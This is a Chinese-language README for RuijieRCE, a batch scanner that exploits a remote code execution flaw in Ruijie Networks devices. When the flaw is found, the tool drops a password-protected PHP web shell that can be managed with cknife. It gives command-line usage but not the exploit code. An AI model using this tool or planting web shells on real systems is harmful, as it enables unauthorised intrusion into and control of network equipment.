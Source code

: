# README

Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。

## 免责声明
由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 参数
```bash
  -f string
    	导入.txt文件批量扫描
  -n string
    	自定义POST木马密码，默认cmd
  -p string
    	自定义GET密码验证，默认为cmd
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./cknife.png)


### 普通使用
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 批量测试
批量测试时可以
```bash
./RuijieRCE -f url.txt
```
